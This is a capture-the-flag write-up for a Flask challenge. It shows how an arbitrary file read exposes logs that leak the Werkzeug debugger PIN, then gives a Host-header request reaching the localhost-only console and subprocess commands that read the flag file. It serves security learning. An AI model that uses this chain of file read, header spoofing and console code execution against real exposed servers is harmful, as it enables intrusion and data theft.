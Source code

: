 ### **Mola7ada Revenge Write-Up**

## discription 

mo7adata was mid i beet you solve this one :) , Revenge baby ;)

## flag 
CTF{machakil_f_ta7mil}

## Write-up 

After obtaining the zip file, I noticed the following line in the Dockerfile:

```dockerfile
CMD flask run --host=0.0.0.0 > /app/logs/logs.txt 2>&1
```

This command redirects the Flask application's output to `/app/logs/logs.txt`. On the host machine, the logs are saved in `./logs/logs.txt`.

During my analysis, I discovered a vulnerability in the following endpoint:

```python
@auth.route('/get_profile_pic')
def file():
    filename = request.args.get('filename')
    try:
        with open(filename, 'r') as f:
            return f.read()
    except:
        return 'error'
```

This endpoint is vulnerable to **Local File Inclusion (LFI)**, which allows reading arbitrary files on the server. However, the flag file is randomized using the following command:

```dockerfile
RUN FLAG_NAME=$(head /dev/urandom | tr -dc A-Za-z0-9 | head -c 12) && mv ./flag.txt "./${FLAG_NAME}_flag.txt"
```

This makes it difficult to guess the flag file's name directly.

---

### **Exploiting the LFI Vulnerability**

After some testing, I found that I could read the application logs using the LFI vulnerability:

```
http://192.168.11.113:5000/get_profile_pic?filename=./logs/logs.txt
```

The output revealed the following:

```
* Serving Flask app 'app.py' 
* Debug mode: on 
WARNING: This is a development server. Do not use it in a production deployment. Use a production WSGI server instead. 
* Running on all addresses (0.0.0.0) 
* Running on http://127.0.0.1:5000 
* Running on http://192.168.11.113:5000 
Press CTRL+C to quit 
* Restarting with stat 
* Debugger is active! 
* Debugger PIN: 630-138-255
```

The logs show that the Flask debugger is active, and the **Debugger PIN** is exposed. This is a critical finding because the debugger allows arbitrary code execution if accessed.

---

### **Accessing the Werkzeug Console**

I attempted to access the Werkzeug console at:

```
http://192.168.11.113:5000/console
```

However, I received the following error:

```
Bad Request
The browser (or proxy) sent a request that this server could not understand.
```

After two days of research and testing various attack vectors (including SSRF), I discovered that the `/console` endpoint is restricted to `localhost` and `127.0.0.1`. It is not accessible from external IP addresses.

---

### **Bypassing the Restriction**

To bypass this restriction, I modified the `Host` header in my HTTP request. By changing the `Host` from `192.168.11.113:5000` to `127.0.0.1`, I was able to access the Werkzeug console.

Here’s the modified request:

```
GET /console HTTP/1.1
Host: 127.0.0.1
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Cookie: __wzd7996cd05d8d38c9847ad=1737926290|efd2461c3eb9
Connection: keep-alive
```

This allowed me to access the Werkzeug console and execute arbitrary Python code.

---

### **Gaining Remote Code Execution (RCE)**

Using the Werkzeug console, I executed the following commands to enumerate the file system and retrieve the flag:

```python
>>> import subprocess
>>> print(subprocess.run("ls -la", shell=True, text=True, capture_output=True).stdout)
```

The output revealed the contents of the current directory, including the randomized flag file:

```
total 68
drwxr-xr-x 1 root root 4096 Jan 26 21:15 .
dr-xr-xr-x 1 root root 4096 Jan 26 21:15 ..
drwxrwxrwx 7 root root 4096 Jan 24 23:14 .git
drwxrwxrwx 3 root root 4096 Jan 24 23:14 .idea
drwxrwxrwx 5 root root 4096 Jan 24 23:14 .venv
-rw-rw-r-- 1 root root  733 Jan 26 04:04 08WrSq8rM2dL_flag.txt
-rw-rw-rw- 1 root root  346 Aug  9 23:09 Bloog.iml
-rw-rw-rw- 1 root root  787 Jan 26 21:15 Dockerfile
drwxrwxrwx 1 root root 4096 Jan 26 21:15 __pycache__
-rw-rw-rw- 1 root root  128 Jan 26 20:34 app.py
-rwxrwxrwx 1 root root  358 Jan 26 21:05 build.sh
drwxrwxrwx 1 root root 4096 Jan 26 20:20 instance
drwxrwxr-x 2 root root 4096 Jan 26 21:11 logs
drwxrwxrwx 4 root root 4096 Jan 24 23:14 migrations
-rw-rw-rw- 1 root root  101 Jan 25 23:58 requirements.txt
drwxrwxr-x 5 root root 4096 Jan 26 01:56 venv
drwxrwxrwx 1 root root 4096 Jan 24 23:14 website
```

Next, I read the contents of the flag file:

```python
>>> print(subprocess.run("cat 08WrSq8rM2dL_flag.txt", shell=True, text=True, capture_output=True).stdout)
```

The flag file contained the following message:

```
It's 5 AM, and this challenge has made me furious.
I spent all day trying to build a nice Werkzeug pin bypass challenge, 
but I found out that `/console` isn’t accessible from outside of localhost.

I tried so many things—one of them was an SSRF attempt to interact with the console and achieve RCE.

Honestly, this challenge feels mediocre; it could be solved in 5 minutes or even with ChatGPT.
Sorry for wasting your time, but if you’re curious about what I was trying to do, check out these resources :  
- https://werkzeug.palletsprojects.com/en/1.0.x/debug/       
- https://www.daehee.com/werkzeug-console-pin-exploit/    

Here is your flag:
CTF{machakil_f_ta7mil}
```

---

### **Note to the Developer: molzri3**

This is the first time I’ve encountered a way to bypass the Werkzeug console's IP restriction. I plan to report this issue to the Werkzeug maintainers for further investigation. I hope you enjoyed playing this challenge as much as I did!

**Edit**
i repport it and it wasnt a vulnurabilty and this was the answer :
IIRC the Host header check was added to prevent DNS rebinding attacks against a debugger running on localhost, not to restrict access to localhost when the debugger itself is exposed to an untrusted network (which NOBODY SHOULD DO as we very clearly document).

PS: Very cool idea to use an exposed werkzeug debugger as a CTF challenge! :)

---

### **References**

- [Werkzeug Debugger Documentation](https://werkzeug.palletsprojects.com/en/1.0.x/debug/)
- [Werkzeug Console PIN Exploit](https://www.daehee.com/werkzeug-console-pin-exploit/)
